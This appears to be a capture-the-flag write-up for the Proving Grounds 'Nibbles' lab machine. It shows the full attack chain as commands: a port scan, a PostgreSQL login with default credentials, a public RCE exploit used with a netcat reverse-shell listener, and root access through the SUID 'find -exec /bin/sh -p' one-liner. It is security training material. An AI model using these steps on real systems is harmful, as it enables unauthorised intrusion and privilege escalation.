 Nibbles is an intermediate Proving Grounds box, also rated as intermediate by the community. After gaining an initial foothold through `RCE`, we discover an interesting `SUID` binary with `find`, and from there we can escalate privileges.

`nmap` scan:

```
nmap <target ip> -sS -Pn -p-
```

![Nmap 1](assets/nibbles/nmap-1.png)

![Nmap 2](assets/nibbles/nmap-2.png)

Let's try using `gobuster` on port 80:

```
gobuster dir -u http://<target ip> -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

![Gobuster 1](assets/nibbles/gobuster-1.png)

Nothing of interest, but we do we the `postgresql` port open so let's connect to it. Before finding actual usernames or passwords we can attempt default credentials. Google `list of postgresql usernames and passwords`:

![Google 1](assets/nibbles/google-1.png)

![Github 1](assets/nibbles/github-1.png)

Okay, now connect to `postgresql` and try using `postgres` as the password:

```
psql -h <target ip> -p 5437 -U postgres
```

![Postgres 1](assets/nibbles/postgres-1.png)

Nice! next to `psql` we can see the version of the service, `server 11.7`.

We might be able to find an exploit through enumerating this version of postgres through `searchsploit` and `Google`:

![Searchsploit 1](assets/nibbles/searchsploit-1.png)

![Google 2](assets/nibbles/google-2.png)

Results with `RCE` is always great news. Most likely will have an easier time gaining the initial foothold.

![Github 2](assets/nibbles/github-2.png)

Clone the repo and follow the instructions:

![Github 3](assets/nibbles/github-3.png)

Within the exploit, don't forget to modify the data highlighted (`RHOST` and `RPORT` refer to the target machine, `LHOST` and `LPORT` are the attacker machine):

![Exploit 1](assets/nibbles/exploit-1.png)

Have a listener on port 80 and then run the exploit:

```
nc -nlvp 80
```

![Exploit 2](assets/nibbles/exploit-2.png)

![Nc 1](assets/nibbles/nc-1.png)

Nice, we received a shell. Can we retrieve `local.txt`?

![Local txt 1](assets/nibbles/local_txt-1.png)

Check to see if any `SUID` binaries are available:

```
find / -type f -perm -4000 2>/dev/null
```

`find` itself is a binary with an `SUID` bit, so let's look it up on `GTFOBins`:

![GTFOBins 1](assets/nibbles/gtfobins-1.png)

By running the `find` command from its full path in this manner (Under the `SUID` section) we gain elevated privileges. First let's see where `find` is:

```
which find
```

![Which 1](assets/nibbles/which-1.png)

Now, execute the line from `gtfobins`:

```
/usr/bin/find . -exec /bin/sh -p \; -quit
```

![Root 1](assets/nibbles/root-1.png)

Rooted! :partying_face:
